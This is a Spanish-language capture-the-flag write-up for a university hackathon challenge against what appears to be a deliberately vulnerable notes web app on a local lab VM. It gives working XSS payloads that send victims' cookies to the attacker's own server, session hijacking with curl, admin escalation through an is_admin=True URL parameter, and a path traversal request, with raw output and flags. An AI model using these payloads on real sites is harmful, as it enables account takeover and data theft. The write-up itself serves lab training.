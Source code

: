 # Hackaton UdG - Reto 3

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)

### Flag 1 

Creamos un usuario, levantamos un servidor en python con `python -m http.server 6969` y dentro de los upload, en el apartado de texto plano alguno de los siguientes **XSS**

```html
<!-- esta primera puede buggear la web, reinciadno la VM se arreglar -->
<img src=x onerror="document.location='http://10.0.2.15:6969/cookie?data='+document.cookie;">
<!-- segunda opción -->
<img src=x onerror="fetch('http://10.0.2.15:6969/cookie?data='+document.cookie)">
```

en nuestro servidor de **Python** vemos esta línea

```shell
10.0.2.12 - - [17/Mar/2025 23:01:59] "GET /cookie?data=NOTESAPP=29260242|asmith||author HTTP/1.1" 404 -

```
y con la cookie ya podemos lanzar un `curl` como la usuaria *Alice Smith* y ver que tiene en su blog

```shell
                                                                            
curl -b "NOTESAPP=29260242|asmith||author" http://10.0.2.12/notesapp/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<!-- Copyright 2017 Google Inc. -->
<html>
<head>
<title>Notes: Home</title>
<style>
...
...
  <tr>
    <td></td>
    <td>
      Private&nbsp;note&nbsp;
    </td>
    <td>
      <a class='button' id='show' onclick='_showHide("show", "hide")' href='#'>Show &#9658;</a>
      <span id='hide' style='display: none;'>
      <a class='button' onclick='_showHide("show", "hide")' href='#'>Hide &#9668;</a> &nbsp;
      <span id='private_note'>HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}</span></span>
    </td>
  </tr>
  <tr><td colspan='3'><hr></td></tr>

  <tr><td colspan='3'><b>Most recent notes:</b></td></tr>

...

</html>
```

**Flag 1:** `HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}`


### Flag 2 

Cuando registramos a un usuario en la URL aparece `&is_author=True`, aprovechando esta vulnerabilidad podemos modificar el path añadiendo `is_admin=True` como vemos en el ejemplo siguiente:

```python
http://10.0.2.12/notesapp/saveprofile?action=new&uid=pepito&pw=12345&is_admin=True
```
y con esto conseguimos un usuario con poderes de administrador, y como nos dicen que un administrador puede editar otros, pues tan sencillo como ir a editar el usuario `administrator` y en la `Private Note` vemos la flag.


**Flag 2:** `HACK{k9lb8YI00Be2t7eAm4zI7lDr-B8ePCWspRuDAF9ccWQ}`


### Flag 3

Primero, subimos una imagen desde el apartado de `upload`, este nos mostratrá un poco la estructura de los paths `/noteasapp/<TU_USER>/<NOMBRE_IMG>.jpg`. Encendemos [Caido](https://caido.io/), y luego vamos a la barra de búsqueda, ese path y nos dará la imagen que hemos subido, reafirmando una vulnerabilidad de `path traversal`.

Volvemos a Caido, en el apartado de `HTTP history` pillamos la request que se hizo al comprobar la imagen, click derecho en ella y nso la llevamos al apartado de `Replay`, y hay una límea que hay que modificar 

```python
Accept: image/avif,image/webp,*/*
```

y cambiar por

```python
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5
```

esto nos permitirá ver otros formatos de archivo que no solo sea de imagen, luego realizamos dos retrocesos de directorio y apuntamos al archivo que contiene la flag, llamado `secret.txt`

**Request**
```python
GET /notesapp/pepito/../../secret.txt HTTP/1.1
Host: 10.0.2.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.0.2.12/notesapp/
Connection: keep-alive
Cookie: NOTESAPP=111686670|pepito|admin|
Pragma: no-cache
Cache-Control: no-cache
```
**Response**
```python
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 19 Mar 2025 14:22:59 GMT
Content-Type: text/plain
Connection: keep-alive
Cache-control: public, max-age=7200
X-XSS-Protection: 0
Content-Length: 49

HACK{nStelXA71NsqQtNO_tzMxtTAESJvdzU5GwrST2kGhWc}
```
y observamos que la respuesta nos devolvió en texto plano la _flag_.

**Flag 3:** `HACK{nStelXA71NsqQtNO_tzMxtTAESJvdzU5GwrST2kGhWc}`
